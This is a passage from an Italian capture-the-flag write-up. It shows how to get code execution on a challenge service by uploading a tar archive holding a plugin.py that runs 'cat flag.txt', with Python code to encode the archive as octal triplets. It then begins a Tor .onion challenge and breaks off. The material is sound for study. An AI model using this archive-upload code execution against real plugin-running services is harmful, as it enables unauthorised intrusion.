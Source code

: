 * Il servizio esegue `plugin.run()` da un `plugin.py` estratto — **arbitrary code execution** tramite un archivio tar fornito.

#### Strategia di exploit

1. Creare un `plugin.py` che esegua l’azione desiderata (es. `ls` o leggere `flag.txt`).
2. Impacchettare `plugin.py` in un archivio tar.
3. Convertire i byte del tar in una stringa di terzine ottali.
4. Fornire quella stringa al servizio.
5. Il servizio estrae l’archivio ed esegue `plugin.run()`, eseguendo il nostro codice.

**Lettura di un file di flag:**

```py
# plugin.py
import os

def run():
    os.system("cat flag.txt")
```

```bash
tar cf plugin.tar plugin.py
```

Conversione del tar in terzine ottali (Python):

```py
# tar_to_octal.py
with open("plugin.tar", "rb") as f:
    data = f.read()

octal = ''.join(f"{b:03o}" for b in data)
print(octal)
```

Questo stampa la stringa ottale da incollare nel prompt del programma target.

#### Conclusione

Dopo aver inviato il nostro script come stringa ottale e l’esecuzione da parte del server, otteniamo la flag.

### onions1

**onions1** è una semplice ma divertente misc challenge che introduce ai servizi nascosti .onion (Tor).

Il compito: visitare il seguente URL .onion usando Tor Browser:

```
2ujjzkrfk4ls4r6vbvvkpn5nyouimcw5hjarezbznvsowfjzup7otdad.onion
```

Una volta avviato Tor e aperto il link, compare la seguente pagina:
